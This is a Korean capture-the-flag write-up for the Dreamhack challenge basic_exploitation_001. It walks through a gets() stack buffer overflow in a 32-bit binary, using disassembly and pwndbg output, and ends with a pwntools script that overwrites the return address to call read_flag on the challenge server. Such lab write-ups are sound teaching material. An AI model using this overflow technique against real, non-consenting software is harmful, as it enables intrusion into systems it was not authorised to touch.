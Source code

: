 # [basic_exploitation_001](https://dreamhack.io/wargame/challenges/3/) 
 
 문제 파일의 코드는 다음과 같다. 주석은 코드의 해석들 위하여 본인이 직접 작성한 것이다.

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0); // 표준 입력에서 버퍼를 사용하지 않는다. 버퍼를 지나지 않고 요청 즉시 작업이 진행된다. 
    setvbuf(stdout, NULL, _IONBF, 0); // 표준 출력에서 버퍼를 사용하지 않는다. 버퍼를 지나지 않고 요청 즉시 작업이 진행된다.

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag"); //shell 명령어 "cat /flag" 실행
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```

## Exploit strategy
 read_flag() 함수를 실행시켜 shell 명령어 "cat /flag"를 실행하는 것이 이 문제의 목표라고 할 수 있다. 우선 pwndbg를 통하여 주어진 바이너리 파일의 main함수를 disassemble하여 살펴보자. 
 ```assembly
   0x080485cc <+0>:     push   ebp
   0x080485cd <+1>:     mov    ebp,esp
   0x080485cf <+3>:     add    esp,0xffffff80
   0x080485d2 <+6>:     call   0x8048572 <initialize>
   0x080485d7 <+11>:    lea    eax,[ebp-0x80]
   0x080485da <+14>:    push   eax
   0x080485db <+15>:    call   0x80483d0 <gets@plt>
   0x080485e0 <+20>:    add    esp,0x4
   0x080485e3 <+23>:    mov    eax,0x0
   0x080485e8 <+28>:    leave
   0x080485e9 <+29>:    ret
```
lea eax,[ebp-0x80]를 보면 오버플로우를 발생시킬 버퍼는 ebp-0x80에 위치함을 알 수 있다. 스택 프레임의 구조를 떠올려보자. ebp에는 SFP가 저장되므로 ebp+0x4(공격 대상 컴퓨터는 32bit이므로 포인터 크기는 4바이트이기 때문이다.)에 return address가 저장될 것임을 알 수 있다.
return address의 값을 read_flag() 함수의 주소로 채워주면 이 문제의 목표인 shell 명령어 "cat /flag"를 실행할 수 있을 것이다. pwndbg를 통하여 read_flag()의 주소를 알아보자.
```
pwndbg> print read_flag
$1 = {<text variable, no debug info>} 0x80485b9 <read_flag>
```
주소는 0x80485b9이다. 이제 Exploit script를 작성해보자. 

## Exploit script

```python
# importing pwntools
from pwn import* 

# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 매개변수는 각각 호스트와 포트넘버이다.
p = remote('host1.dreamhack.games',15845) 

# 공격 대상 아키텍쳐는 x86
context.arch = 'i386' 

# payload 작성
payload = b"\x90"*132 # ebp+0x3까지 담을 더미 값 
payload += p32(0x80485b9) # return address에 들어갈 read_flag() 함수의 주소를 32bit packing(little endian의 byte 배열로 변경)

# payload + '\n'을 전송
p.sendline(payload) 

# 셸을 획득했으므로 interactive 함수 사용
p.interactive()
```
